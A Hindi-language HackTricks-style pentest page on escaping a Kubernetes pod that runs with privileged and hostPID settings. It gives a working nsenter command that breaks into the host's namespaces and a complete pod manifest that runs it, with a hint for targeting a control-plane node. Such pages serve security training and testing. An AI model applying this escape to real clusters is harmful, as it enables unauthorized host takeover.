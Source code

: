 # Pod Escape Privileges

{{#include ../../../banners/hacktricks-training.md}}

## Privileged and hostPID

इन विशेषाधिकारों के साथ, आपके पास **होस्ट की प्रक्रियाओं तक पहुंच** होगी और **होस्ट प्रक्रियाओं में से एक के नामस्थान के अंदर प्रवेश करने के लिए पर्याप्त विशेषाधिकार** होंगे।\
ध्यान दें कि आपको संभावित रूप से विशेषाधिकार की आवश्यकता नहीं हो सकती है, बल्कि केवल कुछ क्षमताएँ और अन्य संभावित रक्षा बाईपास (जैसे apparmor और/या seccomp) की आवश्यकता हो सकती है।

बस निम्नलिखित में से कुछ चलाने से आपको पॉड से बाहर निकलने की अनुमति मिलेगी:
```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```
कॉन्फ़िगरेशन उदाहरण:
```yaml
apiVersion: v1
kind: Pod
metadata:
name: priv-and-hostpid-exec-pod
labels:
app: pentest
spec:
hostPID: true
containers:
- name: priv-and-hostpid-pod
image: ubuntu
tty: true
securityContext:
privileged: true
command:
[
"nsenter",
"--target",
"1",
"--mount",
"--uts",
"--ipc",
"--net",
"--pid",
"--",
"bash",
]
#nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
```
{{#include ../../../banners/hacktricks-training.md}}
